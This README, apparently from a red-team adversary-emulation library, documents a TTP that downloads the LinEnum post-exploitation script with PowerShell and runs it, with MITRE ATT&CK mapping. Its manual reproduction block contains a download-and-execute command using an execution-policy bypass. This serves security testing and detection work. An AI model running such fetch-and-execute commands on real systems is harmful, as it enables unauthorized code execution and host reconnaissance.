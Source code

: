 # Download Post Exploitation Tool with Powershell

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP downloads a post exploitation tool from a given link and executes it
with Powershell.

## Arguments

- **escalate_privileges**: Whether to escalate privileges before running the
  TTP

  Default: false

- **download_link**: The link to download the post exploitation tool from

  Default: <https://raw.githubusercontent.com/rebootuser/LinEnum/65475312171107e9373dd8b06c9757610f0653d8/LinEnum.sh>

- **download_path**: The path to save the downloaded file to

  Default: ./LinEnum.sh

## Pre-requisites

1. Powershell (`pwsh`) must be installed and on the default path.

## Examples

You can run the TTP using the following example (after updating the arguments):

```bash
ttpforge run forgearmory//execution/download-post-exploitation-tool-with-powershell/download-post-exploitation-tool-with-powershell.yaml \
  --arg escalate_privileges=true
```

## Steps

1. **ensure-root-user-if-required**: This step checks if the TTP needs to be
   run as root (`escalate_privileges`) and exits with an error message if
   root access is required.
1. **download-file**: This step downloads the post exploitation tool from the
   specified link (`download_link`) using Powershell and saves it to the
   specified path (`download_path`). If the download fails, it exits with an
   error message.
1. **make-file-executable**: This step makes the downloaded file executable.
1. **execute-file**: This step executes the downloaded file.

## Manual Reproduction Steps

```bash
download_link=https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
download_path=/tmp/LinEnum.sh

pwsh -exec bypass -c "(New-Object System.Net.WebClient).DownloadFile(\"${download_link}\",\"${download_path}\")"

# Execute it
bash "${download_path}"
```

## MITRE ATT&CK Mapping

- **Tactics**:
  - TA0002 Execution
- **Techniques**:
  - T1059 Command and Scripting Interpreter
- **Subtechniques**:
  - T1059.001 Command and Scripting Interpreter PowerShell
